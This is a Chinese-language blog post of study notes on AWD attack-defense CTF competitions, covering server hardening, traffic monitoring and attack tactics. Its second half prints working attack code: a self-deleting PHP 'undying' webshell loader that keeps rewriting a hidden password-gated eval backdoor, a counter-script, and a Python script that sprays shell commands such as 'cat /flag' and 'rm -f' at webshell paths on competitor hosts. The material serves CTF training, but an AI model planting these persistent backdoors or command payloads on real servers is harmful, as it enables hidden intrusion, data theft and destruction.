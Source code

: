 ```yaml
---
layout: post
title: 'AWD学习'
subtitle: 'AWD模式&准备&攻防&监控&批量'
date: 2021-09-24
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 AWD 
---
```

### AWD模式&准备&攻防&监控&批量

> 前期准备

1.队伍反攻
2.脚本工具环境完整
3.漏洞POC/EXP
4.安全防御WAF以及批量脚本网站

> 必备操作

1.备份网站文件
2.修改数据库密码
3.修改网页登录端的一切弱密码
4.查看是否留有后门账户
5.关闭不必要端口，如远程登录端口
6.使用命令匹配一句话特性
7.关注是否运行了"特殊"进程
8.权限高可以设置防火墙或者禁止他人修改本目录

### 防守-流量监控-实时获取访问数据包流量

1.分析有后门或者无后门的攻击行为数据包找到漏洞进行修复

2.分析到成功攻击的数据包进行自我利用，用来攻击其他队伍

### 攻击-权限维持-不死脚本后门生成以及查杀

不死马脚本

	<?php 
	ignore_user_abort(true); //进程运行
	set_time_limit(0);
	unlink(__FILE__); //运行就删除文件
	$file = '.index.php';
	$code = '<?php if(md5($_GET["pass"])=="588b0909be46df2e992915a156a4e848"){@eval($_POST[a]);} ?>';
	while (1){
	    file_put_contents($file,$code);
	    usleep(5000);
	}
	?>

条件竞争打不死马脚本

	<?php 
	ignore_user_abort(true); //进程运行
	set_time_limit(0);
	unlink(__FILE__); //运行就删除文件
	$file = '.index.php';
	$code = 'fuck';
	while (1){
	    file_put_contents($file,$code);
	    usleep(1000);
	}
	?>

### 其他-恶意操作-搅屎棍发包回手掏共权限

作为各种技术大家都要用的情况下，一个好的攻击漏洞和思路不被捕捉和发现，一个好的套路浪费对手的实际，搅屎棍发包回首掏共权限利用思路可以尝试使用

	import requests
	import time
	
	def scan_attack():
	    file={'shell.php','x.php','index.php','web.php','1.php'}
	    payload={'cat /flag','ls -al','rm -f','echo 1'}
	    while(1):
	        for i in range(8802, 8804):
	            for ii in file:
	                url='http://192.168.76.156:'+ str(i)+'/'+ii
	                for iii in payload:
	                    data={
	                        'payload':iii
	                    }
	                    try:
	                        requests.post(url,data=data)
	                        print("正在搅屎:"+str(i)+'|'+ii+'|'+iii)
	                        time.sleep(0.5)
	                    except Exception as e:
	                        time.sleep(0.5)
	                        pass
	
	
	if __name__ == '__main__':
	    scan_attack()